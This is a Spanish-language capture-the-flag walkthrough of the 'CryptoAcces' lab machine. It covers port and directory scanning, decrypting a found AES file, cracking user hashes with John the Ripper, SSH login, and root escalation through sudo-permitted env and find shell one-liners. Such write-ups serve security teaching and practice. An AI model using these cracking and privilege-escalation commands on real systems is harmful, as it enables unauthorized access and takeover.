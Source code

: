 ```yaml
---
description: '✍️ Autor: beafn28🔍 Dificultad: Medio📅 Fecha de creación: 5/10/2024'
hidden: true
---
```


# CryptoAcces

### 🔍 RECONOCIMIENTO

En primer lugar, tras conectarnos a la máquina, utilizamos el comando:

```bash
ping -c 1 172.17.0.2
```

para verificar la conectividad de red.

<figure><img src="../.gitbook/assets/imagen (58).png" alt=""><figcaption></figcaption></figure>

A continuación, realizamos el comando:

```bash
nmap -sVC -p- -n --min-rate 5000 172.17.0.2
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

<figure><img src="../.gitbook/assets/imagen (59).png" alt=""><figcaption></figcaption></figure>

Como podemos observar durante el escaneo que el **puerto 22** perteneciente al **servicio SSH** y el **puerto 80** perteneciente al **servicio HTTP** están abiertos por lo que a continuación se indagará más.

### 🔎 **EXPLORACIÓN**

Se utiliza el comando:

```bash
sudo nmap -sCV -p22,80 -v 172.17.0.2
```

para obtener más información sobre esos puertos específicamente.

<figure><img src="../.gitbook/assets/imagen (60).png" alt=""><figcaption></figcaption></figure>

Seguimos indagando más sobre los puertos y ahora indagamos sobre el **servicio HTTP**. Se ingresó la **dirección IP** en el navegador lo que llevó a que la página web nos mencione una pista y descubrimos la página por defecto de Apache.

Ahora buscaremos directorios con la herramienta **Gobuster** a través de:

```bash
gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
```

<figure><img src="../.gitbook/assets/imagen (61).png" alt=""><figcaption></figcaption></figure>

Descubrimos un directorio oculto llamado `/hidden` por lo que indagamos qué contenido habrá.

<figure><img src="../.gitbook/assets/imagen (62).png" alt=""><figcaption></figcaption></figure>

Observamos varios archivos por lo que nos los descargamos e indagaremos más a fondo pero tiene pinta que hay trata de criptografía.

```
wget -r -np -nH --cut-dirs=2 --reject "index.html*" http://172.17.0.2/hidden/
```

### 🚀 **EXPLOTACIÓN**

Con la información obtenida anteriormente, realizamos el comando:

<pre class="language-bash"><code class="lang-bash"><strong>openssl enc -aes-256-cbc -d -in ~/Desktop/alice_aes.enc -out ~/Desktop/alice_password.txt -k 'supercomplexkey!' -iter 10000
</strong></code></pre>

```
openssl enc -aes-256-cbc -d -in ~/Desktop/alice_aes.enc -out ~/Desktop/alice_password.txt -k 'supercomplexkey!' -pbkdf2
```

Descifra el archivo `alice_aes.enc` utilizando AES-256-CBC con la clave `supercomplexkey!`,y guarda el resultado en el archivo `alice_password.txt`. La opción de iteración asegura que el proceso de derivación de la clave sea más seguro al hacerlo más difícil de atacar por fuerza bruta.

> Nota: la clave se encuentra en el archivo numeros\_suerte.txt

Hemos descubierto de **alice** que es **superSecurePassword!**

Vamos a descubrir las credenciales del usuario **bob**, al parecer hay varios hashes por lo que los vamos a crackear.

Nos aseguramos de tener todos los hashes de las contraseñas de Bob en un solo archivo. Combinamos los hashes en un único archivo de texto usando el siguiente comando:

```bash
cat bob_password*.hash > bob_passwords.hash
```

Utilizamos John the Ripper para intentar crackear las contraseñas.

```bash
john --wordlist=/usr/share/john/password.lst bob_passwords.hash
```

<figure><img src="../.gitbook/assets/imagen (64).png" alt=""><figcaption></figcaption></figure>

Desciframos estos hashes y se nos proporciona 3 contraseñas y al probar vemos que **letmein** es la correcta. Toca iniciar sesión de los dos usuarios a través del servicio **SSH**.

<figure><img src="../.gitbook/assets/imagen (65).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/imagen (66).png" alt=""><figcaption></figcaption></figure>

### 🔐 **PRIVILEGIOS**

Al estar dentro y ejecutar:

```bash
whoami
```

aún no somos **root**, por lo que hacemos:

```bash
sudo -l
```

para ver si hay algo para explotar.

<figure><img src="../.gitbook/assets/imagen (67).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/imagen (68).png" alt=""><figcaption></figcaption></figure>

#### 1. **Escalada de privilegios con `env` (Bob)**

El binario `/usr/bin/env` puede ser utilizado para escalar privilegios cuando tiene permisos de sudo sin contraseña. A continuación te muestro cómo podrías hacerlo siguiendo los pasos proporcionados por **GTFObins**.

**Comando de GTFObins (env) para obtener una shell de root:**

```bash
sudo /usr/bin/env /bin/sh
```

* Este comando ejecuta el binario `/bin/sh` con privilegios de root mediante `sudo` y `env`, dándote una shell de root.
* Una vez ejecutado, tendrás acceso root en la máquina.

#### 2. **Escalada de privilegios con `find` (Alice)**

De forma similar, el comando `find` también puede ser explotado para obtener una shell con privilegios elevados si tiene permisos de sudo.

**Comando de GTFObins (find) para obtener una shell de root:**

```bash
sudo find . -exec /bin/sh \; -quit
```

* Este comando usa `find` para ejecutar `/bin/sh` con privilegios de root utilizando `sudo`.
* El flag `-exec` permite ejecutar el comando `/bin/sh`, y `-quit` detiene el comando `find` una vez que la shell ha sido lanzada.

<figure><img src="../.gitbook/assets/imagen (69).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/imagen (70).png" alt=""><figcaption></figcaption></figure>

Ya somos **root** por lo que ahora encontraremos la bandera en sus directorios.
